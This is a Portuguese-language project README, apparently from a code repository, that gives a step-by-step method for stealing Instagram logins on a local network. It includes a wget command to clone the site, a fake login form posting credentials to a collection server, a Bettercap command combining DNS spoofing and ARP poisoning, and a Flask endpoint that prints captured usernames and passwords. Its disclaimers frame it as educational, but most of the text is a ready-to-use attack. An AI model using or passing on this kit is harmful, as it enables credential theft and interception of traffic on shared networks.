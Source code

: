 <header>
<h1>Como Criar uma Página Falsa Usando DNS Spoofing e ARP Spoofing</h1>
</header>

<section>
<h2>Descrição</h2>
<p>Este projeto é uma demonstração de como ataques como DNS Spoofing e ARP Spoofing podem ser utilizados para redirecionar o tráfego da vítima para uma página falsa que você controla. Lembre-se, essas técnicas devem ser usadas apenas para fins educativos e em ambientes controlados. Qualquer uso mal-intencionado é ilegal e antiético.</p>
</section>

<section>
<h2>Objetivo</h2>
<p>O objetivo deste projeto é mostrar como um atacante pode redirecionar tráfego de uma rede local para uma página falsa, a qual coleta dados de login sensíveis (por exemplo, credenciais de um site como o Instagram).</p>
</section>

<section>
<h2>Como Funciona</h2>
<h3>DNS Spoofing (Falsificação de DNS)</h3>
<p>O atacante intercepta as consultas DNS e engana a vítima, direcionando o tráfego de um site legítimo (como "instagram.com") para seu próprio servidor.</p>

<h3>ARP Spoofing (Falsificação de ARP)</h3>
<p>Esse ataque manipula a tabela ARP, fazendo com que os pacotes da vítima sejam enviados para o computador do atacante.</p>

<h3>Página Falsa (Phishing)</h3>
<p>O atacante cria uma página que se parece com o site original (por exemplo, o Instagram), mas com a funcionalidade de coletar dados inseridos pela vítima, como nome de usuário e senha.</p>
</section>

<section>
<h2>Como Criar a Página Falsa</h2>

<h3>Passo 1: Baixar o código do site original</h3>
<p>Você pode usar ferramentas como <code>wget</code> ou <code>curl</code> para baixar o código HTML do site original. Isso permite que você tenha uma cópia do site em seu computador.</p>
<pre><code>wget -r -np -k http://instagram.com</code></pre>

<h3>Passo 2: Modificar o código para coletar dados</h3>
<p>Depois de ter o código do site, altere-o para incluir um formulário falso de login. Esse formulário irá coletar as credenciais inseridas pela vítima.</p>
<pre>
code>
<form action="http://seu-servidor.com/pegar-dados" method="post">
<input type="text" name="username" placeholder="Usuário">
<input type="password" name="password" placeholder="Senha">
<input type="submit" value="Entrar">
</form>
</code>
</pre>

<h3>Passo 3: Servir a página falsa localmente</h3>
<p>Você pode usar Python para criar um servidor local e servir a página falsa. Para isso, basta rodar o seguinte comando:</p>
<pre><code>python3 -m http.server 8080</code></pre>

<h3>Passo 4: Configurar o ataque de DNS e ARP Spoofing</h3>
<p>Agora que você tem a página falsa e o servidor local configurados, é necessário redirecionar o tráfego para o seu computador. Isso pode ser feito usando ferramentas como o Bettercap.</p>
<pre><code>
sudo bettercap -iface wlan0 -eval "set dns.spoof.domains instagram.com.br; set dns.spoof.address 192.168.10.103; dns.spoof on; arp.spoof on"
</code></pre>
<p>Este comando faz com que o tráfego destinado ao "instagram.com.br" seja redirecionado para o seu servidor local (no caso, 192.168.10.103).</p>

<h3>Passo 5: Coletar os dados</h3>
<p>Quando a vítima acessar a página falsa e preencher o formulário de login, os dados serão enviados para o servidor especificado no atributo action do formulário.</p>
<p>Se você estiver usando Flask, você pode configurar um servidor para coletar esses dados:</p>
<pre>
<code>
from flask import Flask, request

app = Flask(__name__)

@app.route('/pegar-dados', methods=['POST'])
def pegar_dados():
    usuario = request.form['username']
    senha = request.form['password']
    print(f"Usuário: {usuario} | Senha: {senha}")
    return "Dados coletados!"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
</code></pre>
</section>

<section>
<h2>Resumo do Processo</h2>
<ol>
<li>A vítima tenta acessar "instagram.com".</li>
<li>O tráfego é redirecionado para o seu servidor local devido ao ataque de DNS Spoofing.</li>
<li>O servidor local serve a página falsa.</li>
<li>A vítima insere as credenciais de login na página falsa.</li>
<li>Os dados coletados são enviados para o seu servidor, permitindo que você capture as informações.</li>
</ol>
</section>

<section>
<h2>Aviso Legal</h2>
<p>Este tipo de atividade é ilegal e antiética. O uso dessas técnicas deve ser restrito a ambientes controlados e com a permissão explícita dos envolvidos, como em laboratórios de segurança e para fins educativos. Realizar ataques como este em redes ou sistemas sem autorização pode resultar em sérias consequências legais.</p>
</section>
